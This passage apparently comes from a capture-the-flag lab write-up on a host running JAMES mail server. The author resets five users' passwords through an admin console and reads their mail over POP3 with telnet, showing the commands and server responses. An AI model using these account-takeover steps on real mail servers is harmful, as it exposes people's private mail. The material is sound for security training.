 I can change the password for each:

```

setpassword -h
Usage: setpassword [username] [password]
setpassword james 0xdf0xdf
Password for james reset
setpassword thomas 0xdf0xdf
Password for thomas reset
setpassword john 0xdf0xdf
Password for john reset
setpassword mindy 0xdf0xdf
Password for mindy reset
setpassword mailadmin 0xdf0xdf
Password for mailadmin reset

```

For each account, I can now connect to TCP 110 (POP3) to check mail. `telnet` works best to connect to POP3. The first user, james, has no messages:

```

root@kali# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER james
+OK
PASS 0xdf0xdf
+OK Welcome james
LIST
+OK 0 0
.

```

I’ll quit (CTRL+] followed by entering `quit`), and move on to the next user. No mail in thomas either, but john does show one message:

```

root@kali# telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS 0xdf0xdf
+OK Welcome john
LIST
+OK 1 743
1 743
.

```
